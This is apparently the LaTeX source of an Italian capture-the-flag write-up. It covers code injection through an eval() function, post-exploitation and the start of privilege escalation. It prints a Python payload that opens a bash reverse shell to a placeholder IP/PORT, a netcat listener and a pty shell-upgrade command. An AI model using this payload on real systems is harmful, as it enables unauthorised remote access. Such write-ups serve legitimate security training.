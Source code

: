 \documentclass[a4paper,11pt]{article}
\begin{document}
\subsection{Code Injection}

Analizzando il comportamento dell’applicazione, si sospetta l’utilizzo della funzione \texttt{eval()}.

Payload utilizzato:

\begin{lstlisting}
__import__('os').system("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'")
\end{lstlisting}

Listener:

\begin{lstlisting}
nc -lvnp 4444
\end{lstlisting}

\textbf{Risultato:} accesso come utente \texttt{blunder}

\section{Post-Exploitation}

\subsection{Stabilizzazione della shell}

\begin{lstlisting}
python3 -c 'import pty; pty.spawn("/bin/bash")'
\end{lstlisting}

\section{Privilege Escalation}

\subsection{Analisi del sistema}

Nel sistema è presente una directory:

\begin{lstlisting}
/backup_container
\end{lstlisting}

Contiene:
\begin{itemize}
    \item script backup.sh
    \item cronjob
\end{itemize}
\end{document}
